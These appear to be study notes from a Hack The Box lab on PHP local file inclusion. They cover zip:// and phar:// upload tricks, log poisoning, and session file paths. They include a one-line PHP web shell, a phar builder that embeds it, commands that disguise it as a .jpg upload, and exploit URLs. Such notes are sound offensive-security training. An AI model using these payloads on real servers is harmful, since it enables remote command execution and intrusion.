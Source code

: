 ## Zip upload

- can use the [Zip Wrapper](https://www.php.net/manual/en/wrappers.compression.php) to execute PHP code
- this wrapper isn't enabled by default, and may not always work

```sh
thnwht@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

- then upload the `shell.jpg` archive with `zip://shell.jpg` zip wrapper and `&cmd=whoami` 

- request URL may look like
```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## Phar upload

- can use `phar://` wrapper to get a similar result
- first write a PHP script into `shell.php` file

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
- this script compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with 
- compile it into a phar file and rename it to shell.jpg as follows;

```sh
thnwht@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

- upload it to the web application and request to this URL
```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

# Log Poisoning

- writing PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file)
- PHP web app should have read privileges over the logged files 

## PHP session poisoning

- most PHP app utilize PHPSESSID cookie and keep track of user details through their cookies
- these details are stored in session files at `/var/lib/php/sessions/` on Linux and `C:\Windows\Temp\` on Windows
- name of file that contains our user's data matches the name of PHPSESSID cookie with `sess_` prefix
- eg - PHPSESSID cookie set to 1q2w3e4r5t6y7u8i9o and its location on disk would be `/var/lib/php/sessions/sess_1q2w3e4r5t6y7u8i9o`
